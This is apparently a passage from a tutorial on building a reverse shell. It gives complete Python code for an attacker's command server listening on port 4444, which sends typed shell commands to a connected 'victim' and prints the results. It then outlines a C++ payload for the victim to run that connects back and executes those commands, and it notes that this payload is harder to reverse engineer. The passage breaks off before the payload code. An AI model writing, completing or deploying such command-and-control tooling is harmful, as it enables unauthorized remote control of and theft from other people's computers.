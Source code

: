 The entire server code looks like this:

```python
import socket
import struct

print("Run")
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.bind(('', 4444))
sock.listen()

c_sock, _ = sock.accept()
print("Got a connection!")

def recv_msg(sock: socket.socket) -> bytes:

	msg_len = sock.recv(4)
	msg_len = struct.unpack("!I", msg_len)[0]

	f_msg = b""

	while len(f_msg) < msg_len:
		f_msg += sock.recv(msg_len - len(f_msg))

	return f_msg

def send_msg(sock: socket.socket, msg: bytes) -> None:

	f_msg = struct.pack("!I", len(msg)) + msg
	sock.sendall(f_msg)

while True:

	cmd = input("Enter command: ")
	send_msg(c_sock, bytes(cmd, 'utf-8'))

	output = recv_msg(c_sock)
	print(output.decode('utf-8'))
```

**NOTE**: There is no error handling or input sanitization in this code, if the victim disconnects while we are sending our message the code will stop execution. This can be implemented later though.

## The Payload

Now that our server has been complete we need to create the payload (this is the code that the victim will run).
I'll be using C++ to create the payload as it doesn't require any additional dependencies to run, if I were to use Python then the victim would need to have Python installed on their system. Now I could use something like `pyinstaller` to compile the code into an exe but these can be easily reverse engineered.

This will be the structure of the payload:
- Connect to the server
- Receive a shell command
- Execute the shell command
- Send the output to the server
- Accept a new shell command
